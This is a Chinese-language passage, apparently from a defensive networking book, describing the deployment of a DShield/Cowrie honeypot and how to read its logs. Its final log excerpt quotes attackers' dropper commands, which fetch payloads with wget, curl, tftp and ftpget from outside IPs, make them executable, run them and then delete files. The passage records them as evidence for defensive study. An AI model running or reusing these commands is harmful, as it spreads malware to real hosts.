 此外，为了确保您的报告已提交，一两个小时后请检查[`isc.sans.edu/myreports.html`](https://isc.sans.edu/myreports.html)（您需要登录）。

状态检查中显示的错误是此主机尚未连接到互联网 - 这将是我们的下一步。在我的情况下，我将把它放在一个 DMZ 中，只允许对端口`22/tcp`，`80/tcp`和`443/tcp`进行入站访问。做出这些更改后，我们的状态检查现在通过了：

```
###### Checking various files
OK: /var/log/dshield.log
OK: /etc/cron.d/dshield
OK: /etc/dshield.ini
OK: /srv/cowrie/cowrie.cfg
OK: /etc/rsyslog.d/dshield.conf
OK: firewall rules
OK: webserver exposed
```

当浏览器指向蜜罐的地址时，他们将看到这个：

图 14.13 - 从浏览器中看到的 ISC 网络蜜罐

图 14.13 - 从浏览器中看到的 ISC 网络蜜罐

在蜜罐服务器本身上，您可以看到各种登录会话，攻击者可以访问假的 SSH 和 Telnet 服务器。在`/srv/cowrie/var/log/cowrie`中，文件是`cowrie.json`和`cowrie.log`（以及以前几天的日期版本）：

```
$ pwd
/srv/cowrie/var/log/cowrie
$ ls
cowrie.json             cowrie.json.2021-07-18  cowrie.log.2021-07-17
cowrie.json.2021-07-16  cowrie.log              cowrie.log.2021-07-18
cowrie.json.2021-07-17  cowrie.log.2021-07-16
```

当然，`JSON`文件是为您编写代码而格式化的。例如，Python 脚本可能会获取这些信息并将其提供给 SIEM 或其他"下一阶段"的防御工具。

然而，文本文件很容易阅读 - 您可以使用`more`或`less`（Linux 中常见的两个文本查看应用程序）打开它。让我们看一些有趣的日志条目。

以下代码块显示了启动新会话 - 请注意日志条目中的协议和源 IP。在 SSH 会话中，您还将在日志中看到各种 SSH 加密参数：

```
2021-07-19T00:04:26.774752Z [cowrie.telnet.factory.HoneyPotTelnetFactory] New co
nnection: 27.213.102.95:40579 (192.168.126.20:2223) [session: 3077d7bc231f]
2021-07-19T04:04:20.916128Z [cowrie.telnet.factory.HoneyPotTelnetFactory] New co
nnection: 116.30.7.45:36673 (192.168.126.20:2223) [session: 18b3361c21c2]
2021-07-19T04:20:01.652509Z [cowrie.ssh.factory.CowrieSSHFactory] New connection
: 103.203.177.10:62236 (192.168.126.20:2222) [session: 5435625fd3c2]
```

我们还可以查找各种攻击者尝试运行的命令。在这些示例中，他们试图下载额外的 Linux 工具，因为蜜罐似乎缺少一些工具，或者可能是一些恶意软件以持续运行：

```
2021-07-19T02:31:55.443537Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,5,141.98.10.56] Command found: wget http://142.93.105.28/a
2021-07-17T11:44:11.929645Z [CowrieTelnetTransport,4,58.253.13.80] CMD: cd /tmp || cd /var/ || cd /var/run || cd /mnt || cd /root || cd /; rm -rf i; wget http://58.253.13.80:60232/i; curl -O http://58.253.13.80:60232/i; /bin/busybox wget http://58.253.13.80:60232/i; chmod 777 i || (cp /bin/ls ii;cat i>ii;rm i;cp ii i;rm ii); ./i; echo -e '\x63\x6F\x6E\x6E\x65\x63\x74\x65\x64'
2021-07-18T07:12:02.082679Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,33,209.141.53.60] executing command "b'cd /tmp || cd
 /var/run || cd /mnt || cd /root || cd /; wget http://205.185.126.121/8UsA.sh; curl -O http://205.185.126.121/8UsA.sh; chmod 777 8UsA.sh; sh 8UsA.sh; tftp 205.185.126.121 -c get t8UsA.sh; chmod 777 t8UsA.sh; sh t8UsA.sh; tftp -r t8UsA2.sh -g 205.185.126.121; chmod 777 t8UsA2.sh; sh t8UsA2.sh; ftpget -v -u anonymous -p
anonymous -P 21 205.185.126.121 8UsA1.sh 8UsA1.sh; sh 8UsA1.sh; rm -rf 8UsA.sh t8UsA.sh t8UsA2.sh 8UsA1.sh; rm -rf *'"
```
